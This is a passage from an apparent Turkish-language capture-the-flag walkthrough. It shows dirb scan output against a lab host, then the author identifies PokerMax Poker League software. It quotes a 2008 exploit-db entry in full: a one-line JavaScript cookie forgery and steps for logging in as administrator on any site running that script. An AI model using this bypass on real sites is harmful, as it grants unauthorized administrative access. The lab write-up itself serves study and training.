 ```sh
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/setup/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon May 13 17:05:52 2019
DOWNLOADED: 41508 - FOUND: 14
```

dirb çıktısında index.html ile index.php dosyaları bulundu ve iki dosyanında boyutları farklı. index.php sayfasına gidildiğinde /install/ klasörü altında gördüğümüz uygulamanın kurulmuş olduğunu gördüm.
Sayfanın en altında `Created with PokerMax Poker League Software` ifadesini gördüm. Bununla alakalı internette biraz araştırma yaptıktan sonra `https://www.exploit-db.com/exploits/6766` sayfasında bir not buldum. Şimdi bu notu aşağıda paylaşıyorum.
```
**************************************************************************************

Author : DaRkLiFe
Greetz : str0ke & S.W.A.T. & funkys0ul

**************************************************************************************
Script   :

PokerMax Poker League Insecure Cookie Handling Vulnerability

Download:

http://www.stevedawson.com/downloads/pokerleague.zip
**************************************************************************************

Exploit :

javascript:document.cookie = "ValidUserAdmin=admin";

**here "admin" refers to username of administrator on site

default username is "admin" given after installation of site

but if it is changed u can easily find out username of admin and then 
substitute it in place of "admin"
**************************************************************************************

Instructions :

Find the site running on this script .

Go to http://site.com/pokerleague/pokeradmin/configure.php

It will ask for login. Now in url tab run the exploit command

Then return back to http://site.com/pokerleague/pokeradmin/configure.php

Now u should be loggedin as admin and change the thing into what you want .

**************************************************************************************

THANKS ! GREETZ ! HAPPY DIWALI !
**************************************************************************************

# milw0rm.com [2008-10-16]
```